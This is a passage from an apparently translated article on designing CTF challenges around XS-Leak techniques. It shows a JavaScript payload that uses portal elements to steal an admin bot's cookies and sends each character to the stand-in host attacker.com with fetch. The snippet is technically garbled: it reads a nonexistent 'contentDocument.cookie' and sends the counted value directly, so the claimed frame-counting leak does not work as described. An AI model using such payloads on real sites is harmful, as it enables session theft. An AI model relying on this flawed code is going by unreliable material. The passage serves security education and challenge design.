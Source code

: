 To activate experimental features, experimental features must be allowed with separate settings. Assume challenge environments where automated bots visit URLs with administrator accounts when solvers report specific URLs. (Administrator bots are implemented with `puppeteer v5` and allow experimental features.)

Also, assume additionally that challenge environments allow solvers to conduct HTML Injection, and assume the core goal of challenges is stealing administrator cookies.

Problem setters prohibited direct cookie theft requests from being sent to external `webhook` URLs through `CSP` policy settings and `Same-Site` settings to prevent cookie theft situations, and set `X-Frame-Options` headers to prevent XSLeak through Frame Counting. Due to this, solvers might think methods to leak administrators' cookies are blocked.

However, solvers who know portal functionality can be used can relatively easily leak administrators' cookies using Frame Counting XSLeak.

```jsx
const portal = document.createElement("portal");
portal.src = "/admin-page";

portal.addEventListener("load", () => {
  setTimeout(() => {
    const adminCookie = portal.contentDocument.cookie;

    for (let i = 0; i < adminCookie.length; i++) {
      const charCode = adminCookie.charCodeAt(i);

      for (let j = 0; j < charCode; j++) {
        const dummyPortal = document.createElement("portal");
        dummyPortal.src = "about:blank";
        document.body.appendChild(dummyPortal);
      }

      const portalCount = document.querySelectorAll("portal").length;
      fetch(`https://attacker.com/leak?pos=${i}&ascii=${portalCount}`);

      document
        .querySelectorAll('portal[src="about:blank"]')
        .forEach((p) => p.remove());
    }
  }, 500);
});

document.body.appendChild(portal);
```

Solvers can induce bots to visit URLs where malicious scripts like above are injected and steal administrators' cookies using Frame Counting XSLeak vulnerabilities. This was a simple situational example, but actual problem setters can increase challenge difficulty by designing processes where malicious scripts are injected in challenges more complexly.

**XSLeak using STTF**

Since STTF provides functionality to directly search text within pages, more information leakage can be attempted, and for problem setters, it can be used as one of very useful sources for challenge creation. XSLeak challenges using STTF are explained based on actual challenges presented as `Level 5B - PALINDROME's Secret` in `The InfoSecurity Challenge 2022 CTF`.
